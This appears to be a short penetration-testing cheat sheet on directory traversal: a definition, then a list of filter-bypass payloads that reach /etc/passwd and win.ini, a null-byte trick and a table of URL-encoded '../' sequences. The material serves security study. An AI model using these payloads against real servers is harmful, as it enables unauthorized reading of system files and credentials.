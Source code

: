 # 🟩 Directory Traversal

Directory traversal (or path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files

## <mark style="color:red;">Bypass path traversal filters</mark>

```
..\..\..\windows\win.ini --> Windows OS
../../../etc/passwd
....//....//....//etc/passwd
/var/www/images/../../../etc/passwd 
../../../etc/passwd%00.png --> null byte bypass
```

<mark style="color:green;">**URL Encoding**</mark>

| char | encode          |
| ---- | --------------- |
| ../  | %2e%2e%2f       |
| ../  | %252e%252e%252f |
| ../  | ..%252f         |
| ../  | ..%c0%af        |
| ../  | ..%ef%bc%8f     |
